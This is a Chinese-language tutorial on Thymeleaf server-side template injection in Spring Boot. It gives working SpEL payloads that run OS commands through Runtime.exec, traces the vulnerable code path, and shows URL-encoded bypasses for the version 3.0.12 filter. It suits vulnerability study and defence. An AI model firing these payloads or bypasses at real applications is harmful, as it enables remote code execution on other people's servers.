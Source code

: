 和其他模板注入不太相同，thymeleaf模板注入的漏洞点在模板名可控，插入恶意payload，执行SpEL表达式。

官方文档👉https://www.thymeleaf.org/doc/tutorials/3.1/usingthymeleaf.html

由文档可知，在SpringMVC下，thymeleaf中的表达式最终会被转化为SpEL表达式。

尝试直接执行恶意的SpEL表达式

```html
<p th:text=${#T(java.lang.Runtime).getRuntime().exec("calc")}></p>
```

会报错

> `org.springframework.expression.spel.SpelEvaluationException: EL1006E: Function 'T' could not be found`

还记得SpEL表达式执行的修复中提到使用`SimpleEvaluationContext`来代替`StandardEvaluationContext`吗？前者旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用。同样thymeleaf也实现了自己的`EvaluationContext` ———— `ThymeleafEvaluationContext`，同样也把这些语法特性阉割了。

虽然但是，模板是否有其他利用点呢？

和其他模板引擎一样，thymeleaf也提供了一些全局上下文变量

> **#ctx** : the context object. An implementation of `org.thymeleaf.context.IContext` or `org.thymeleaf.context.IWebContext` depending on our environment (standalone or web).
>
> `#root`：org.thymeleaf.spring5.expression.SPELContextMapWrapper
>
> `#request` ：(仅在 Web 上下文中)`HttpServletRequest`对象。
>
> `#response` ：(仅在 Web 上下文中)`HttpServletResponse`对象。
>
> `#session` ：(仅在 Web 上下文中)`HttpSession`对象。
>
> `#servletContext` ：(仅在 Web 上下文中)`ServletContext`对象。

```html
<p th:text=${#ctx.springMacroRequestContext.webApplicationContext.getBean("xxx").doSomething()}></p>
```

bean的名字不指定貌似是类名首字母小写

# Reproduce

```xml
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.0.0.RELEASE</version>
</parent>

<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
</dependency>

<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-thymeleaf</artifactId>
</dependency>
```

> `SpringBoot`2.0.0.RELEASE => `thymeleaf-spring5` 3.0.9
>
> `SpringBoot`2.2.0.RELEASE => `thymeleaf-spring5` 3.0.11

```java
@GetMapping("/index")
public String test(@RequestParam String lang){
    return "home/"+lang+"/index";
}
```

POC：

```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x
```

漏洞点在`org.thymeleaf.spring5.view.ThymeleafView#renderFragment`

`renderFragment`用于解析片段

当`viewTemplateName`含有`::`，`viewTemplateName`会被拼接上`~{}`作为片段表达式

> 片段表达式为Thymeleaf 3.x新增的内容
>
> 分段段表达式是⼀种表示标记⽚段并将其移动到模板周围的简单⽅法。
>
> 正是由于这些表达式，⽚段可以被复制，或者作为参数传递给其他模板等等
>
> 在一个文件中定义的fragment（`banner.html`）
>
> ```html
> <div th:fragment="test">Hello</div>
> ```
>
> 可以在其他文件中引用
>
> ```html
> <div th:insert="~{banner::test}"
> ```

![image-20231221210054884](./../.gitbook/assets/image-20231221210054884.png)

进到`StandardExpressionPreprocessor#preprocess`

正则提取`\\_\\_(.*?)\\_\\_`，即提取`__xx__`中间的`xx`内容，封装成一个`expression`并执行`execute`方法，执行了SpEL表达式

![image-20231221210105903](./../.gitbook/assets/image-20231221210105903.png)

此外，下面这种情况也能触发漏洞

```java
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    //returns void, so view name is taken from URI
}
```

之前提到`DispatcherServlet#doDispatch`会尝试获取`ModelAndView`，视图名就是由`Controller`的返回值得到的，但这里返回为空，造成`DispatcherServlet`获取到的`ModelAndView`也为空

`applyDefaultViewName`会尝试将路径名作为视图名

```java
private void applyDefaultViewName(HttpServletRequest request, @Nullable ModelAndView mv) throws Exception {
    if (mv != null && !mv.hasView()) {
        String defaultViewName = getDefaultViewName(request);
        if (defaultViewName != null) {
            mv.setViewName(defaultViewName);
        }
    }
}

public String getViewName(HttpServletRequest request) {
    String lookupPath = this.urlPathHelper.getLookupPathForRequest(request);
    return (this.prefix + transformPath(lookupPath) + this.suffix);
}

protected String transformPath(String lookupPath) {
    String path = lookupPath;
    if (this.stripLeadingSlash && path.startsWith(SLASH)) {
        path = path.substring(1);
    }
    if (this.stripTrailingSlash && path.endsWith(SLASH)) {
        path = path.substring(0, path.length() - 1);
    }
    if (this.stripExtension) {
        path = StringUtils.stripFilenameExtension(path);
    }
    if (!SLASH.equals(this.separator)) {
        path = StringUtils.replace(path, SLASH, this.separator);
    }
    return path;
}
```

`transformPath`会把请求路径进行如下处理

* 去除开头结尾的SLASH `/` 
* 去除文件扩展名（即去除最后的`.`及后面的内容）

POC：

```java
doc/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()}__::a.b
```

`transformPath`会去掉文件扩展名，因此POC以`a.b`结尾

![image-20231221210120094](./../.gitbook/assets/image-20231221210120094.png)

# ByPass

在`3.0.12`版本，`thymeleaf`增加了一个工具类`SpringStandardExpressionUtils`

`containsSpELInstantiationOrStatic`顾名思义，对实例化和静态方法的调用作了检测

限制了如下：

* 不能有`new`关键字
* `(`左边的字符不能是`T`

可以用空白符绕过：

```java
__${T (java.lang.Runtime).getRuntime().exec("calc")}__::.x
```

此外还有另外一个函数的限制，请求路径不能和返回的视图名一样

```java
// A check must be made that the template name is not included in the URL, so that we make sure
// no code to be executed comes from direct user input.
SpringRequestUtils.checkViewNameNotInRequest(viewTemplateName, request);
```

像下面这种路由就受到了限制

```java
@GetMapping("/home/{page}")
public String getHome(@PathVariable String page) {
    return "home/" + page;
}
```

![image-20231221210137763](./../.gitbook/assets/image-20231221210137763.png)

这里是通过`request.getRequestURI()`获取路径的

两种绕过方式：

* 双写斜杠
  * `home//__%24%7BT%20(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__%3A%3A.x`
* `;`传递矩阵参数
  * `home;/__%24%7BT%20(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__%3A%3A.x`

高版本的修复

![image-20231221210147717](./../.gitbook/assets/image-20231221210147717.png)

![image-20231221210152481](./../.gitbook/assets/image-20231221210152481.png)

会往`(`左边一直找`T`

# Ref

* https://github.com/veracode-research/spring-view-manipulation
* https://xz.aliyun.com/t/10514